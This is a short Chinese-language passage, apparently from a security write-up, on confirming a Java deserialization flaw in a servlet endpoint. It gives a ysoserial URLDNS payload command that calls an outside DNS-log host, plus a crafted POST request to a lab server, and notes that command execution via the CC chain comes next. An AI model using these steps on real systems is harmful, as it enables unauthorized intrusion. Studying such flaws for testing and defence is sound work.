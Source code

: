 ## 反序列化漏洞验证

在利用cc链进行命令执行前，可以使用URLDNS对之前的阅读源码的理解进行验证。

> java -jar ysoserial-all.jar URLDNS "[http://mxtest.97886226fd.ipv6.1433.eu.org."](https://97886226fd.ipv6.1433.eu.org./) >mxtest.bin

之后，构造请求数据包，请求的路径为之前构造出来的路径，以`/service/mxservlet`为例  
将生成的序列化数据直接从文件中粘贴。

```php
POST /service/mxservlet HTTP/1.1
Host: 192.168.126.131:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/data
Cookie: JSESSIONID=AE08AAAA9C9FC99389408FE028A93302.server
Connection: close
```

![image.png](assets/1699929342-f8603c05a72c300bebd0a0caebdb9200.jpg)  
在dnslog中获得请求，证明该路径下确实存在对请求数据包中的对象直接反序列化的问题。  